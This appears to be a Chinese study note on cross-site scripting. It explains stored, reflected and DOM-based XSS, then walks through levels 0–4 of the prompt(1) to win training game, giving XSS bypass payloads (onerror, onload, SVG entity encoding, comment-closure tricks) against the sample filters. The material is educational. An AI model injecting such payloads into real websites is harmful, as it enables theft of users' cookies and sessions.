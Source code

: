 # 什么是XSS

Cross-Site Scripting（跨站脚本攻击）简称 XSS，是一种代码注入攻击。攻击者通过在目标网站上注入恶意脚本，使之在用户的浏览器上运行。利用这些恶意脚本，攻击者可获取用户的敏感信息如 Cookie、SessionID 等，进而危害数据安全。为了和 CSS 区分，这里把攻击的第一个字母改成了 X，于是叫做 XSS。

XSS 的本质是：恶意代码未经过滤，与网站正常的代码混在一起；浏览器无法分辨哪些脚本是可信的，导致恶意脚本被执行。而由于直接在用户的终端执行，恶意代码能够直接获取用户的信息，或者利用这些信息冒充用户向网站发起攻击者定义的请求。

在部分情况下，由于输入的限制，注入的恶意脚本比较短。但可以通过引入外部的脚本，并由浏览器执行，来完成比较复杂的攻击策略。这里有一个问题：用户是通过哪种方法“注入”恶意脚本的呢？不仅仅是业务上的“用户的 UGC 内容”可以进行注入，包括 URL 上的参数等都可以是攻击的来源。在处理输入时，以下内容都不可信：

- 来自用户的 UGC 信息
- 来自第三方的链接
- URL 参数
- POST 参数
- Referer （可能来自不可信的来源）
- Cookie （可能来自其他子域注入）

# XSS分类
## 存储型
存储型 XSS 的攻击步骤：
* 攻击者将恶意代码提交到目标网站的数据库中。
* 用户打开目标网站时，网站服务端将恶意代码从数据库取出，拼接在 HTML 中返回给浏览器。
* 用户浏览器接收到响应后解析执行，混在其中的恶意代码也被执行。
* 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。
这种攻击常见于带有用户保存数据的网站功能，如论坛发帖、商品评论、用户私信等

## 反射型
反射型 XSS 的攻击步骤：
* 攻击者构造出特殊的 URL，其中包含恶意代码。
* 用户打开带有恶意代码的 URL 时，网站服务端将恶意代码从 URL 中取出，拼接在 HTML 中返回给浏览器。
* 用户浏览器接收到响应后解析执行，混在其中的恶意代码也被执行。
* 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。
* 反射型 XSS 跟存储型 XSS 的区别是：存储型 XSS 的恶意代码存在数据库里，反射型 XSS 的恶意代码存在 URL 里。

反射型 XSS 漏洞常见于通过 URL 传递参数的功能，如网站搜索、跳转等。

由于需要用户主动打开恶意的 URL 才能生效，攻击者往往会结合多种手段诱导用户点击。

POST 的内容也可以触发反射型 XSS，只不过其触发条件比较苛刻（需要构造表单提交页面，并引导用户点击），所以非常少见。

## DOM型
DOM 型 XSS 的攻击步骤：
* 攻击者构造出特殊的 URL，其中包含恶意代码。
* 用户打开带有恶意代码的 URL。
* 用户浏览器接收到响应后解析执行，前端 JavaScript 取出 URL 中的恶意代码并执行。
* 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。
DOM 型 XSS 跟前两种 XSS 的区别：DOM 型 XSS 攻击中，取出和执行恶意代码由浏览器端完成，属于前端 JavaScript 自身的安全漏洞，而其他两种 XSS 都属于服务端的安全漏洞。

# XSS攻击游戏
[prompt(1) to win](http://prompt.ml/0)
[prompt(1) to win平台通关记录](https://xz.aliyun.com/t/4507#:~:text=prompt%EF%BC%881%EF%BC%89to,win%E6%98%AF%E4%B8%80%E4%B8%AA%E6%AF%94%E8%BE%83%E7%BB%8F%E5%85%B8%E7%9A%84xss%E8%AE%AD%E7%BB%83%E5%B9%B3%E5%8F%B0%EF%BC%8C%E4%B8%BB%E8%A6%81%E7%9A%84%E7%9B%AE%E7%9A%84%E6%98%AF%E7%BB%95%E8%BF%87%E4%BB%A3%E7%A0%81%E7%9A%84%E7%BA%A6%E6%9D%9F%E6%9D%A1%E4%BB%B6%E7%84%B6%E5%90%8E%E6%89%A7%E8%A1%8Cprompt%EF%BC%881%EF%BC%89%E4%BE%BF%E6%88%90%E5%8A%9F%E8%BF%87%E5%85%B3%EF%BC%8C%E4%B8%8D%E6%B6%89%E5%8F%8Axss%E4%B9%8B%E5%90%8E%E7%9A%84%E4%B8%80%E4%BA%9B%E5%88%A9%E7%94%A8%E3%80%82)
[通关记录2](https://blog.csdn.net/qq_35078631/article/details/77073233)
通过实现xss攻击通关，帮助实践深入理解xss攻击
将攻击中的alert换成prompt就是答案
> 0
```html
<input type="text" value="">
<!--对于网页上的输入框，如果输入以下内容，会被浏览器解析为js脚本并执行，这就是xss攻击了 -->
攻击：
"><script>alert(1)</script><"
```
> 1
```html
防护：
'<article>' + input + '</article>'
<!--
var stripTagsRE = /<\/?[^>]+>/gi;
input = input.replace(stripTagsRE, '');
针对显示进行了过滤，将<***>或者<***/>过滤，0中的攻击无效了 -->
攻击：
<img src=# onerror="alert(1)" 
<!-- src引用的图片不存在则执行onerror事件-->
或
<body onload=alert(1)// 
<!-- onload事件会在页面或图像加载完成后立即发生 -->
```
> 2
```html
防护：
<!--
input = input.replace(/[=(]/g, '');
过滤了=以及( 
-->

攻击：
<svg><script>alert&#x28;1)</script>
<!-- 由于输入遇到js代码会先执行js代码，此时的html编码未被解析，绕过正则后，由于前面的svg标签，会对html编码进行解析，&#x28;的html编码便是(，因此可以成功执行 -->
或：
<script>eval.call`${'prompt\x281)'}`</script>
```
> 3
```html
防护：
'<!-- ' + input + ' -->'; 
<!-- 
input = input.replace(/->/g, '_');
试图将内容变成注释防止执行，并将内容里的->替换为_防止注释标签闭合 -->
攻击：
--!> <script>alert(1)    </script>
--!>也可以使注释提前闭合
```
> 4 同源的正则过滤

@的特性进行远程访问服务器的js文件，构造的payload可以当做是以http://prompt.ml 作为身份验证去访问请求localhost/xss.js，由于src引用了这个文件，所以在js文件上写入prompt(1)，理论可以弹出1，但是由于本题的正则匹配，所以必须打入 http://prompt.ml/@localhost/xss.js 才能满足正则匹配，而浏览器并不允许这样的格式，但是代码中有decodeURIComponent函数，可以将/改为%2f，完成绕过。